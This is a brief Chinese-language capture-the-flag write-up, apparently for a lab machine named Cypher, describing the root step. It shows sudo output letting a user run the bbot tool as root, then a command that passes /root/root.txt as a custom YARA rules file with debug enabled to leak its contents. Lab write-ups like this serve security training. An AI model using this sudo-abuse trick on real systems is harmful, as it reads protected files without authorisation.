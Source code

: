 ## Root

查看**sudo**

```
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

**bbot**的内容如下

```
graphasm@cypher:~$ cat /usr/local/bin/bbot
#!/opt/pipx/venvs/bbot/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from bbot.cli import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

本来想在当前目录写入同名**python**文件来进行提权，但是目录没有写的权限，查看一下是否可以写入配置来启动**bbot**

注意到**\--custom-yara-rules**可以引入规则

![](./images/image-41.png)

因此可以尝试把**root.txt**引入，并且开启**debug**模式

```
graphasm@cypher:/usr/local/bin$ sudo /usr/local/bin/bbot -cy /root/root.txt --debug
```

![](./images/image-43.png)
